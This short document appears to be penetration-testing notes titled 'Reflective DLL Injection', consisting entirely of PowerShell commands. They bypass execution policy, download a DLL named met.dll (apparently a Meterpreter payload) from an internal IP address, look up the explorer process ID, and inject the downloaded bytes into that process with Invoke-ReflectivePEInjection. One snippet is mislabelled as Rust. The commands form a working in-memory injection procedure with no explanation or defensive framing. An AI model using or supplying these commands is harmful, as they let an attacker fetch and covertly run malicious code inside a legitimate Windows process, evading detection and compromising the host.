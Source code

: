 # Reflective DLL Injection

```
PowerShell -Exec Bypass
```

```rust
$bytes = (New-Object System.Net.WebClient).DownloadData('http://192.168.119.120/met.dll')
```

```
$procid = (Get-Process -Name explorer).Id
```

```powershell
Import-Module C:\Tools\Invoke-ReflectivePEInjection.ps1
```

```powershell
Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid
```
